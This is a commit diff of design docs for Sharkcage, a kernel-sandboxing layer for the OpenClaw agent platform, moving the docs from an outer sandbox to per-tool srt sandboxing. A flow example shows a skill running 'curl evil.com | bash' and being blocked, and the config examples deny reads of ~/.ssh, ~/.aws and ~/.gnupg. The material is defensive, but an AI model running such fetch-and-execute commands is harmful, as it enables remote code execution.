

Before and after one commit to wan0net/sharkcage, a Jekyll site: the page built from docs/unified-platform.md, in a window 1280 px wide and 1400 px high, scrolled down 2816 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update all docs to reflect per-tool sandboxing architecture
Comprehensive doc pass: unified-platform.md, README.md, INSTALL.md
all updated to remove outer srt sandbox references. Architecture
diagrams, data flows, threat model, security layers, CLI descriptions
all reflect the current model: per-tool srt for AI commands, per-skill
srt for skills, gateway unsandboxed.

Co-Authored-By: Claude Opus 4.6 (1M context) <noreply@anthropic.com>

````diff
--- a/docs/unified-platform.md
+++ b/docs/unified-platform.md
@@ -1,12 +1,12 @@
 ---
 layout: doc
 title: Sharkcage — Trust Layer for OpenClaw
-description: Runs the entire OpenClaw binary inside a kernel-level sandbox. Per-skill sandboxing, capability model, AI-driven compatibility with the entire OpenClaw ecosystem.
+description: Wraps every AI-directed tool call with kernel-level sandboxing. Per-skill sandboxing, capability model, AI-driven compatibility with the entire OpenClaw ecosystem.
 ---
 
 # Sharkcage
 
-A trust and sandboxing layer for OpenClaw. The **entire OpenClaw binary** runs inside a kernel-level outer sandbox (ASRT). Every skill also runs in its own kernel-enforced inner sandbox. Capabilities approved once at install. Compatible with the entire OpenClaw ecosystem on day one — AI infers capability manifests for existing skills automatically.
+A trust and sandboxing layer for OpenClaw. Every AI-directed tool call runs through kernel-level sandboxing via `srt`. Every skill also runs in its own kernel-enforced per-skill sandbox. Capabilities approved once at install. Compatible with the entire OpenClaw ecosystem on day one — AI infers capability manifests for existing skills automatically.
 
 Version: 2.0.0
 Date: 2026-03-29
@@ -41,8 +41,8 @@ Date: 2026-03-29
 | What | Who Provides |
 |------|-------------|
 | 22+ chat channels, gateway, Pi agent, web UI, mobile apps, ClawHub | **OpenClaw** (unmodified) |
-| Entire OpenClaw binary runs inside outer ASRT sandbox | **Sharkcage** |
-| Per-skill kernel sandboxing via inner ASRT | **Sharkcage** |
+| Per-tool kernel sandboxing — every AI command runs through srt | **Sharkcage** |
+| Per-skill kernel sandboxing — each skill gets its own srt sandbox | **Sharkcage** |
 | Capability manifests — approve once, enforce always | **Sharkcage** |
 | AI inference of capabilities for existing OpenClaw skills | **Sharkcage** |
 | Skill scanning, Ed25519 signing, trust levels | **Sharkcage** |
@@ -92,50 +92,40 @@ Multi-project, multi-model, multi-agent. CI scanning. Audit logs. Cost tracking.
 
 ### 3.1 The Supervisor Model
 
-Sharkcage is a supervisor process that owns all sandboxes. The **entire OpenClaw binary** runs inside the outer sandbox. Each skill runs inside its own inner sandbox. The supervisor is the only unsandboxed process.
+Sharkcage is a supervisor process that owns all sandboxes. The OpenClaw gateway process runs unsandboxed — it serves deterministic chat server code, not AI-directed operations. Every individual AI tool call (bash, file read/write) goes through `srt --settings <session-policy>` via the sandbox backend. Each skill runs in its own per-skill srt sandbox. The supervisor manages skill sandboxes and audit logging.
 
 ```
-sc start (supervisor — the only unsandboxed process, ~200 lines)
+sc start (supervisor + process manager)
   │
-  ├── OUTER ASRT SANDBOX → OpenClaw (entire binary)
-  │   │  network: [signal-cli, openrouter.ai]  (init-locked, signed)
-  │   │  filesystem: [~/.openclaw/data]
-  │   │  deny: [~/.ssh, ~/.aws, ~/.gnupg]
+  ├── OpenClaw (gateway — NOT sandboxed)
+  │   │  Channels: Signal, Telegram, WhatsApp, Discord, HA, iMessage...
+  │   │  Sharkcage plugin registered as sandbox backend
   │   │
-  │   │  OpenClaw Gateway + Pi Agent + sharkcage plugin
-  │   │  Channels: Signal, Telegram, WhatsApp, Discord, HA, iMessage...
-  │   │
-  │   │  On tool call → IPC to supervisor via unix socket
+  │   │  On tool call → srt --settings <session-policy> /bin/sh -c <cmd>
+  │   │  On skill call → IPC to supervisor via unix socket
   │   │
   │   └── unix socket ──→ supervisor
   │
-  ├── INNER ASRT SANDBOX → meals worker
+  ├── PER-SKILL ASRT SANDBOX → meals worker
   │   network: [meals-api.wan0.cloud]
   │   filesystem: none
   │
-  ├── INNER ASRT SANDBOX → HA worker
+  ├── PER-SKILL ASRT SANDBOX → HA worker
   │   network: [homeassistant.local:8123]
   │   filesystem: none
   │
-  ├── INNER ASRT SANDBOX → coding agent
-  │   network: [github.com, registry.npmjs.org, openrouter.ai]
-  │   filesystem: [./workspace]
-  │   exec: [git, npm, node]
-  │
-  └── INNER ASRT SANDBOX → weather worker
-      network: [api.weather.com]
-      filesystem: none
+  └── PER-SKILL ASRT SANDBOX → coding agent
+      network: [github.com, registry.npmjs.org, openrouter.ai]
+      filesystem: [./workspace]
+      exec: [git, npm, node]
 ```
 
 **Key properties:**
-- The entire OpenClaw process is contained in the outer sandbox — not just plugins
-- OpenClaw cannot reach hosts that skills can reach (and vice versa)
+- Every AI tool call is kernel-sandboxed via srt — bash commands, file operations, all of them
+- The gateway process is NOT sandboxed — it runs deterministic server code, not AI-directed operations
 - Skills cannot reach each other's hosts
-- Installing a new skill never widens the gateway's attack surface
-- Uninstalling a skill removes its sandbox — no gateway config change needed
-- A compromised skill can't leverage the gateway's access (separate process)
-- A compromised gateway can't leverage a skill's access (separate process)
-- The supervisor is ~200 lines: spawn sandboxed processes, shuttle IPC messages
+- Installing a new skill never widens the tool sandbox
+- The supervisor spawns per-skill sandboxes and manages audit logging
 
 ### 3.2 Data Flow
 
@@ -143,7 +133,7 @@ sc start (supervisor — the only unsandboxed process, ~200 lines)
 User sends message on Signal
   │
   ▼
-OpenClaw (in outer ASRT) receives message, routes to Pi Agent
+OpenClaw (gateway, unsandboxed) receives message, routes to Pi Agent
   │
   ▼
 Pi Agent calls LLM (OpenRouter) → LLM returns tool call
@@ -152,13 +142,20 @@ Pi Agent calls LLM (OpenRouter) → LLM returns tool call
 Sharkcage interceptor (tool.before) inside OpenClaw:
   1. Identify which skill owns this tool
   2. Check capability approval
+
+  For regular tool calls (bash, file ops):
+  3. Sandbox backend invokes: srt --settings <session-policy> /bin/sh -c <cmd>
+  4. srt enforces filesystem + network policy at kernel level
+  5. Return result to Pi Agent
+
+  For skill calls:
   3. Send IPC request to supervisor: {skill, tool, args}
   │
   ▼
-Supervisor (unsandboxed):
+Supervisor:
   1. Look up skill's approved capabilities
   2. Generate ASRT config for this skill
-  3. Spawn (or reuse) skill worker process in its own inner ASRT sandbox
+  3. Spawn (or reuse) skill worker process in its own per-skill ASRT sandbox
   4. Pass tool call via stdin
   5. Read result from stdout
   6. Log to audit DB
@@ -171,31 +168,26 @@ Sharkcage interceptor returns result to Pi Agent
 Pi Agent formats response → OpenClaw → Signal → user
 ```
 
-### 3.3 Init-Locked Gateway Config
+### 3.3 Per-Tool Session Policies
 
-The outer sandbox config is generated at `sc init` and **signed**:
+Per-tool session policies are generated dynamically by the sandbox backend. Each session gets an ASRT config restricting filesystem and network access for all tool calls in that session.
 
 ```bash
-sc init
-  Which channels? → Signal
-  LLM provider? → OpenRouter
-
-→ ~/.config/sharkcage/gateway-sandbox.json:
-  network.allowedDomains: ["127.0.0.1:7583", "openrouter.ai"]
-  filesystem.allowWrite: ["~/.openclaw/data", "~/.config/sharkcage"]
-  signature: "ed25519:..."
+# Session policy example (generated at session start):
+~/.config/sharkcage/sessions/<session-id>.json:
+  network.allowedDomains: ["openrouter.ai"]
+  filesystem.allowWrite: ["~/.openclaw/data"]
+  filesystem.denyRead: ["~/.ssh", "~/.aws", "~/.gnupg"]
 ```
 
-**Changes require deliberate action:**
+Every AI tool call in that session is wrapped:
 ```bash
-sc config add-service telegram    # adds api.telegram.org
-sc config remove-service meals    # removes meals-api host
-# Each: confirm → re-sign → restart
+srt --settings ~/.config/sharkcage/sessions/<session-id>.json /bin/sh -c <cmd>
 ```
 
-**Tampering = refuse to start.** Signature mismatch → OpenClaw won't launch.
+**Policy is scoped to the session** — the sandbox backend generates a fresh policy per session based on the active skill's approved capabilities. No session-wide config file is signed or locked; enforcement is per-invocation at the kernel level.
 
-**Immutable audit trail:** every config change appended to `config-audit.jsonl`.
+**Immutable audit trail:** every tool call appended to `audit.db` with timestamp, tool, args, result, skill, and capability.
 
 ### 3.4 Sharkcage Sits Above the Agent
 
@@ -205,7 +197,7 @@ The coding agent runs inside the inner skill sandbox unaware of restrictions:
 Sharkcage Capability Gate
   "Does this skill have approved capabilities?" → YES/NO
       │
-Inner ASRT Sandbox (per-skill)
+Per-Skill ASRT Sandbox
   Kernel-enforced, scoped to approved hosts/paths
       │
 Coding Agent (Claude Code / Pi / OpenCode / Aider)
@@ -306,18 +298,20 @@ Stored in `~/.config/sharkcage/approvals/{skill-name}.json`. Version-pinned. New
 
 Kernel-enforced. Wraps any process — not just JS/TS.
 
-### 6.2 Outer Sandbox (Entire OpenClaw Process)
+### 6.2 Per-Tool srt Sandboxing
 
-The outer sandbox wraps the **entire OpenClaw binary** — not just the plugin layer. This is the critical distinction: even if a vulnerability exists in OpenClaw itself, it cannot escape the outer sandbox's constraints.
+Every AI-directed tool call is wrapped by the sandbox backend using `srt --settings <session-policy>`. The session policy is derived from the active skill's approved capabilities and enforced at the kernel level for each invocation.
 
 ```
-Outer ASRT config (generated at sc init, signed):
-  network.allowedDomains: ["127.0.0.1:7583", "openrouter.ai"]
+Session policy (generated dynamically per session):
+  network.allowedDomains: ["openrouter.ai"]
   filesystem.allowWrite: ["~/.openclaw/data", "~/.config/sharkcage"]
   filesystem.denyRead: ["~/.ssh", "~/.aws", "~/.gnupg"]
 ```
 
-### 6.3 Per-Skill ASRT Configuration (Inner Sandbox)
+The gateway process itself is not sandboxed — it runs deterministic server code. Only AI-directed operations (bash commands, file reads/writes passed through the sandbox backend) go through srt.
+
+### 6.3 Per-Skill ASRT Configuration
 
 Each skill gets its own ASRT config derived from approved capabilities:
 
@@ -326,7 +320,7 @@ Skill "meals" approved for:
   network.external: ["meals-api.wan0.cloud"]
   data.meals
 
-→ Inner ASRT config:
+→ Per-skill ASRT config:
   network.allowedDomains: ["meals-api.wan0.cloud"]
   filesystem.allowWrite: []
   filesystem.denyRead: ["~/.ssh", "~/.aws"]
@@ -338,7 +332,7 @@ Skill "coding-agent" approved for:
   system.files.write: ["./workspace"]
   network.external: ["github.com", "registry.npmjs.org"]
 
-→ Inner ASRT config:
+→ Per-skill ASRT config:
   network.allowedDomains: ["github.com", "registry.npmjs.org"]
   filesystem.allowWrite: ["./workspace"]
   filesystem.denyRead: ["~/.ssh", "~/.aws"]
@@ -356,7 +350,7 @@ No prompts at runtime. Violations are logged, not prompted:
 
 ### 6.5 Process Isolation
 
-Skills run **outside** the outer sandbox as separate processes. OpenClaw and skills cannot see each other's network scope or filesystem access. The supervisor mediates all communication via IPC.
+Skills run as separate processes in their own per-skill sandboxes. OpenClaw and skills cannot see each other's network scope or filesystem access. The supervisor mediates all communication via IPC.
 
 ---
 
@@ -469,9 +463,9 @@ sc plugin add https://github.com/user/some-skill
 ### Flow 1: "What's for dinner?" (Signal)
 
 ```
-Signal → OpenClaw (outer ASRT) → Pi Agent → LLM → tool call: meals_suggest
+Signal → OpenClaw (gateway) → Pi Agent → LLM → tool call: meals_suggest
   → sharkcage interceptor → IPC → supervisor
-  → supervisor spawns meals worker (inner ASRT: meals-api.wan0.cloud only)
+  → supervisor spawns meals worker (per-skill ASRT: meals-api.wan0.cloud only)
   → worker calls meals API → result
   → supervisor → IPC → OpenClaw → Pi formats response → Signal → user
 ```
@@ -480,7 +474,7 @@ Signal → OpenClaw (outer ASRT) → Pi Agent → LLM → tool call: meals_sugge
 
 ```
 HA Assist → OpenClaw → Pi → tool call: ha_call_service
-  → supervisor → HA worker (inner ASRT: homeassistant.local only)
+  → supervisor → HA worker (per-skill ASRT: homeassistant.local only)
   → POST homeassistant.local/api/services/light/turn_off
   → "Done, lights off." → HA TTS
 ```
@@ -493,7 +487,7 @@ sc plugin add clawhub-skill
   → infers: network.external: ["some-api.com"], system.exec: ["curl"]
   → scanner validates inferred manifest
   → user reviews and approves
-  → installed, runs in its own inner ASRT sandbox
+  → installed, runs in its own per-skill ASRT sandbox
   → works exactly as it did on vanilla OpenClaw, but sandboxed
 ```
 
@@ -501,7 +495,7 @@ sc plugin add clawhub-skill
 
 ```
 Skill tries: curl evil.com | bash
-  → supervisor checks: skill's inner ASRT config has allowedDomains: ["weather.com"]
+  → supervisor checks: skill's per-skill ASRT config has allowedDomains: ["weather.com"]
   → ASRT blocks connection to evil.com at kernel level
   → skill gets ECONNREFUSED
   → audit log: "network violation: skill 'weather' → evil.com (BLOCKED)"
@@ -515,26 +509,25 @@ Skill tries: curl evil.com | bash
 ### 10.1 Defence in Depth (6 Layers)
 
 ```
-Layer 1: Init-locked gateway config (signed, audited)
+Layer 1: Session policy (per-tool srt sandboxing — all AI tool calls)
 Layer 2: OpenClaw tool policy (deny groups, exec security)
 Layer 3: Sharkcage capability gate (interceptor — check approval)
 Layer 4: Sharkcage approval flow (first-time dangerous ops → confirm once)
-Layer 5: Per-skill inner ASRT sandbox (kernel-enforced, out-of-process)
-Layer 6: Outer ASRT sandbox (entire OpenClaw binary contained)
+Layer 5: Per-skill ASRT sandbox (kernel-enforced, out-of-process)
+Layer 6: Supervisor audit logging (every tool call recorded)
 ```
 
 ### 10.2 Threat Matrix
 
 | Threat | Mitigation |
 |--------|-----------|
-| Skill reads ~/.ssh | ASRT mandatory deny — always blocked, both layers |
-| Skill exfiltrates to unknown host | Skill inner ASRT: only approved hosts. Gateway outer ASRT: only init-configured. Kernel-enforced. |
-| Skill writes outside workspace | Skill inner ASRT: allowWrite scoped. Kernel-enforced. |
+| Skill reads ~/.ssh | ASRT mandatory deny — always blocked via per-tool session policy |
+| Skill exfiltrates to unknown host | Per-skill ASRT: only approved hosts. Per-tool session policy: only approved hosts. Kernel-enforced. |
+| Skill writes outside workspace | Per-skill ASRT: allowWrite scoped. Kernel-enforced. |
 | Skill runs destructive commands | Capability gate blocks unless system.exec approved. ASRT scopes to allowed binaries. |
-| OpenClaw binary itself compromised | Outer ASRT contains the entire process. Can't reach skill-only hosts. Signed config can't be widened. |
+| AI-directed tool call escapes sandbox | srt wraps every tool call — gateway runs no AI-directed operations unsandboxed. |
 | Skill accesses another skill's service | Out-of-process isolation. Meals worker can't reach HA. HA worker can't reach meals API. |
-| New skill widens gateway attack surface | Skills run outside outer sandbox. Installing skills never changes gateway config. |
-| Unconfigured channel accessed | Outer ASRT blocks the API host at kernel level. |
+| New skill widens tool sandbox | Skills run in their own per-skill sandboxes. Installing skills never changes other sandbox configs. |
 | Supply chain: malicious ClawHub skill | AI inference + scanner + user approval before any code runs. |
 | Prompt injection via tool results | Capability gate applies to subsequent calls. Cross-skill tool calls checked against originating skill. |
 
@@ -548,7 +541,7 @@ Layer 6: Outer ASRT sandbox (entire OpenClaw binary contained)
 
 **Gap 4: No runtime cost enforcement.** Audit log tracks usage. Improvement: budget caps per skill.
 
-**Gap 5: Nested ASRT (outer + inner).** Skills run outside outer ASRT, so no nesting issue. The supervisor spawns skill sandboxes independently.
+**Gap 5: srt overhead per tool call.** Every AI tool call forks a new srt process. For high-frequency tool use this adds latency. Improvement: reuse sandboxed worker processes per session.
 
 **Gap 6: AI inference accuracy.** AI might over-infer or under-infer capabilities. Mitigated by user review + edit capability. Improves with audit log feedback.
 
@@ -587,7 +580,7 @@ sharkcage/                         # Public umbrella
 | `yeet-core` | OpenClaw is the gateway. Custom Deno gateway was a stepping stone. Archived. |
 | `yeet-sandbox` | Supervisor has ASRT integration built in. Redundant. Archived. |
 
-### 11.3 Skills (separate repos, each its own inner sandbox)
+### 11.3 Skills (separate repos, each its own per-skill sandbox)
 
 ```
 sharkcage-skill-meals/             # Meal planning (DONE, needs IPC refactor)
@@ -598,7 +591,7 @@ sharkcage-skill-godot/             # Godot game dev via MCP (NOT STARTED)
 ```
 
 Any existing OpenClaw/ClawHub skill also works — AI infers capabilities automatically.
-MCP servers run as sandboxed skills (supervisor spawns them in inner ASRT, stdio transport).
+MCP servers run as sandboxed skills (supervisor spawns them in per-skill ASRT, stdio transport).
 
 ### 11.4 Runtime
 
@@ -657,7 +650,7 @@ sharkcage-skill-*                  (sdk for types — meals DONE, rest NOT START
 
 ### Phase 2: End-to-End Integration
 
-- [ ] `sc start` command: starts supervisor + entire OpenClaw binary in outer ASRT
+- [ ] `sc start` command: starts supervisor + OpenClaw gateway (unsandboxed) + sandbox backend
 - [ ] Install OpenClaw locally, register sharkcage plugin
 - [ ] Test: Signal message → OpenClaw → sharkcage interceptor → supervisor → sandboxed skill → result
 - [ ] Test: skill tries to reach unapproved host → ASRT blocks → audit log entry
````
Also changed, not shown: INSTALL.md (+2 -3 lines), README.md.
